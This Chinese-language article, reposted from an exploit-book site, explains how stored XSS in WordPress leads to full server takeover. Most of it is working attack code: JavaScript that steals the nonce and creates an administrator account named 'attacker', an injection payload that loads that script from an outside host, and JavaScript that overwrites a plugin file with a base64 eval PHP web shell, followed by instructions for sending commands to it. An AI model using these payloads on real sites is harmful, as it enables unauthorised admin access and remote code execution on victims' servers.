


# （从 xss 到 getshell） xss 的深层次利用与探讨

> 原文：[http://book.iwonder.run/0day/Wordpress/7.html](http://book.iwonder.run/0day/Wordpress/7.html)

今天我们的网站上公布了大量的 wp 的 xss，那么这篇文章就是深入探讨如何深入利用 xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian@lcx.cc

## 通过 js 文件添加 wp 系统管理员

### 1、创建管理账号

举个例子，攻击者可以在其 Web 服务器上托管 JavaScript 文件，例如 wpaddadmin [.] js（在链接中描述）。此 JavaScript 代码将添加一个 WordPress 管理员帐户，其用户名为“ attacker”，密码为“ attacker”。

```
// Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
var ajaxRequest = new XMLHttpRequest();  
var requestURL = "/wordpress/wp-admin/user-new.php";  
var nonceRegex = /ser" value="([^"]*?)"/g;  
ajaxRequest.open("GET", requestURL, false);  
ajaxRequest.send();  
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
var nonce = nonceMatch[1];  

// Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
ajaxRequest = new XMLHttpRequest();  
ajaxRequest.open("POST", requestURL, true);  
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
ajaxRequest.send(params); 
```

然后，攻击者可以使用以下 PoC 插入 JavaScript。

```
“"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;” 
```

### 图 1.插入 XSS 代码以添加管理员帐户


具有高权限的受害者查看此帖子后，将创建管理员帐户“攻击者”。

### 图 2\. XSS 代码被执行



### 图 3\. XSS 代码创建的具有管理员权限的“攻击者”帐户



然后，攻击者可以将现有的 php 文件修改为 Webshel​​l，并使用该 Webshel​​l 来控制 Web 服务器。

图 4.使用攻击者的帐户添加一个 Web Shell


图 5.控制 Web 服务器


### 2、恶意命令执行

```
// Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
var nonceRegex = /ce" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

// Construct a POST query, using the previously extracted 'nonce' value, and update the content of the file 'akismet/index.php' with our tiny web shell
var params = "_wpnonce="+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST['x']));&action=update&file=akismet/index.php"
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params); 
```

一旦此 XSS 被管理用户触发，我们应该能够通过向脚本

[http://0-sec.org/wp-content/plugins/akismet/index.php](http://0-sec.org/wp-content/plugins/akismet/index.php)

发送 GET / POST 请求来执行任意 PHP 代码，其中参数“ x”等于我们的 PHP 代码的“ base64_encode”。

